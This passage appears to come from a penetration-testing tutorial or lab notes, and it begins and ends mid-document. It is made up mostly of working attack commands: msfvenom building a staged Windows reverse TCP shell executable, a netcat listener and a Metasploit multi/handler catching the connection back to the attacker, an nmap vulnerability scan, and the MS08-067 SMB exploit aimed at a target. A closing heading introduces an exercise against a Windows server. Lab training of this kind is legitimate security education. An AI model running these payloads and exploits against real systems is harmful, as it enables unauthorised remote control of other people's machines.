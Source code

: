 This will produce an unstaged reverse TCP shell, that expects to connect back to its host on port 4444. You could for example use netcat to intercept the reverse shell, on the host (not the target), spool up a listener:

    nc -nvlp 4444

Lets create the staged version (note the `/` vs `_`):

    msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.99 LPORT=4444 -f exe -o malicious.exe

Again, its a reverse shell, but this time its staged (i.e. just a bootstrap, which will expect to download the remain pieces of the exploit as smaller modules after its running). For this we will need to spool up the MSFCommand host to serve back these pieces (`netcat` is too simple to do this):

    msfconsole
    msf > use exploit/multi/handler
    msf > set payload windows/shell/reverse_tcp
    msf > options

The options will show you what parameters are needed for the exploit, for example, the staged windows reverse_tcp exploit needs two parameters, LHOST and LPORT, set these up and run the exploit:

    msf > set LPORT 4444
    msf > set LHOST 192.168.0.99

    msf > run
    [*] Exploit running as background job 0.
    [*] Started reverse TCP handler on 192.168.0.99:4444

Using msfconsole as the host has many advantages. For example, a meterpreter session over a Windows command shell, multiple shell sessions.

To dump out running shell session  on the Kali host:

    msf > sessions
    1   shell  x86/windows          192.168.0.99:4444 -> 192.168.0.23


    nmap --script vuln 192.168.0.14

This will highlight CVE issues.

    msfconsole
    use exploit/windows/smb/ms08_067_netapi
    options

Needs 3 params; RHOST, RPORT and SMBPIPE.

    set RHOST 192.168.0.14
    set payload windows/shell/reverse_tcp
    options
    exploit




# Exercise Windows Host with Anon FTP and IIS

So we have a Windows 2012 R2 host that has anonymous FTP, IIS and SQL Server running.
